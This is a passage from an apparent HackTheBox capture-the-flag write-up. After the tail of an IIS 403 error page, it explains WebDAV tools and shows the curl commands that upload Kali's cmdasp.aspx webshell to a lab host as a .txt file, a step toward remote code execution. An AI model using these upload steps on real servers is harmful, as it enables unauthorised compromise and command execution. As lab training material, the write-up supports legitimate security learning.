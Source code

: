     <li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
    <li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
     and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
    <li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
    </ul>

    </TD></TR></TABLE></BODY></HTML>



Just like `davtest` said, I can't put aspx files directly.

#### Tools

There's a tool called `cadaver` that provides command-line WebDAV
interactions with a slightly simpler syntax than curl. If I are going to
be attacking a WebDAV server, I'll probably use that just for the
shorter commands. That said, I'm going to use `curl` in this post to
show exactly what is happening when I issue these HTTP requests. If you
are interested in `cadaver`, check out the [man
page](https://linux.die.net/man/1/cadaver).

## Shell as network service

### Upload Webshell

The first thing I'll need to do is upload my webshell. Kali has a simple
one at `/usr/share/webshells/aspx/cmdasp.aspx`. I'll grab a copy:



    root@kali# cp /usr/share/webshells/aspx/cmdasp.aspx .



Now I'll upload that to target as a txt using curl and the http put
method:



    root@kali# curl -X PUT http://10.10.10.15/0xdf.txt -d @cmdasp.aspx 



If I look at the page now, I'll see the code, but it's not executed, as
the server is treating it as text:

![](/img/1551906569357.png)
